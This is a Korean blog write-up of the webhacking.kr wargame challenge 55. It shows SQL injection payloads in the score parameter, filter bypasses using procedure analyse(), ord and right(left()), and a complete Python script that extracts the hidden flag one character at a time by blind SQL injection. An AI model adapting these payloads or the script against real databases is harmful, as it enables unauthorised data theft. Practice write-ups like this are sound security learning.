 ```yaml
---
title: "[webhacking.kr] 55번 문제 풀이[Blind SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "55번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 55번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제

  게임 화면 

  ![image](https://user-images.githubusercontent.com/33647663/153992949-e8311e48-9e0d-4038-a5cb-eccb5ef31b26.png){: .align-center}



  랭킹 조회 화면

  ![image](https://user-images.githubusercontent.com/33647663/153993010-6e0b01d3-ffcc-4a5f-99f5-316d3e86040f.png){: .align-center}


  마우스를 움직이면 그림이 따라움직이고, score가 DB에 저장됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/153999656-de31cfac-e90b-4c1e-887b-b6071e378aec.png){: .align-center}




# 실패한 시도
  우선 성공하진 못했지만 처음 시도한 방법은 insert 문을 이용해서 DB에 추가적인 데이터 삽입을 시도했습니다. 현재 score에 따라서 DB에는 다음과 같이 데이터가 들어갑니다. trim 함수는 주어진 문자열의 맨 앞과 맨 뒤의 공백을 제거하는 함수기 때문에 score에 공백만 주지 않는다면 다음과 동일하게 작동합니다.

  ```sql
insert into chall55 values('{id}','{score}','{flag}')
  ```  

  따라서 score에 다음과 같이 injection을 시도합니다. **이때, score로 넣는 값은 ranking에서 조회되지 않는 점수들입니다.**

  ```sql
score = 8080','flag'),(database(),'8081
  ```

  그러면 다음과 같이 쿼리문이 작동하여, 8081을 조회하면 DB명이 들어갈 것입니다.

```sql
insert into chall55 values('oksusu98','8080','flag'),(database(),'8081','flag')
```

하지만 시도해보니 DB에 insert 가 되지 않았습니다. 아마 뒤에서 내부 로직으로 필터링 하는 로직이 있는 것 같습니다.

# 문제 풀이
  그 다음에 시도한 부분은 랭킹에서 테이블을 검색해오는 부분의 sql 을 인젝션 해봤습니다. table에서 데이터를 검색해오는 로직은 다음과 같이 추정됩니다.

  ```sql
select * from chall55 where score = {}; # score가 int형인 경우
select * from chall55 where score = '{}'; # score가 char형인 경우
  ```

  시도 해본 결과 score는 int형으로 저장되어 있었고, 다음과 같이 injection을 시도해보니 성공적으로 되었습니다.

  **2=2**로 시도한 결과

  ![image](https://user-images.githubusercontent.com/33647663/154000909-b6148adb-a636-4193-b005-6d77218eb4f5.png){: .align-center}

  **2=1**로 시도한 결과

  ![image](https://user-images.githubusercontent.com/33647663/154000982-c2b0eeb7-5493-48d2-aeed-855b6dba5931.png){: .align-center}

우선 score로 blind sql injection을 수행 가능함을 알았습니다.

그리고 blind sql injection을 수행하는데 select 문이 필터링 되어 있었습니다.

![image](https://user-images.githubusercontent.com/33647663/154001183-8abad69f-fe45-49d4-bae4-482893dd866e.png){: .align-center}

select 문이 필터링 되어있을때, 테이블명을 알아오는 방법은 procedure analyse()를 이용하는 방법이 있어서 이를 이용했습니다.

**score = 1 procedure analyse()**

![image](https://user-images.githubusercontent.com/33647663/154001362-f934944f-3cd0-448b-9adb-3b715999ce4d.png){: .align-center}


실행결과 DB명, table명, column 명을 알수 있었습니다. 이제 차례대로 column명을 알아옵니다.


**score = 1 limit 1,1 procedure analyse()**

![image](https://user-images.githubusercontent.com/33647663/154001536-806819f8-0480-4006-bd9c-578a8cd37168.png){: .align-center}

**score = 1 limit 2,1 procedure analyse()**

![image](https://user-images.githubusercontent.com/33647663/154001669-043975ad-0adc-4bf8-9301-649fe86a47ed.png){: .align-center}

Flag가 들어있는 컬럼명을 알아냈습니다. 이를 이용해서 blind sql injection을 수행하면 됩니다.


blind sql injection에 사용한 코드는 다음과 같으며 필터링을 우회한 기법으로는 다음 2가지를 사용했습니다.

1. ascii -> ord 우회
2. substr -> right(left('string',1),1) 우회

```python
import requests
import string

url = "https://webhacking.kr/challenge/web-31/rank.php"
params = {}
TRUE_FLAG = 'Piterpan'  # 1=1 일때 화면에 출력되는 id

password_length = 0
for i in range(40):
    payload = "(length(p4ssw0rd_1123581321) = {})".format(i)
    params['score'] = payload
    response = requests.get(url,params=params)
    if(TRUE_FLAG in response.text):
        password_length = i
        print('[+] Password length is',i)
        break

# 비밀번호 길이 31
# substr(password,3,1) -> right(left(right,3),1)
flag = ''
for i in range(1,password_length+1):
    for character in string.printable:
        payload = '(ord( right(left(p4ssw0rd_1123581321,{}),1)) = {})'.format(i,ord(character))
        params['score'] = payload
        response = requests.get(url,params=params)
        if(TRUE_FLAG in response.text):
            flag += character
            print('\r[+]',i,flag,end='')
            break
    print()

print(flag)
```

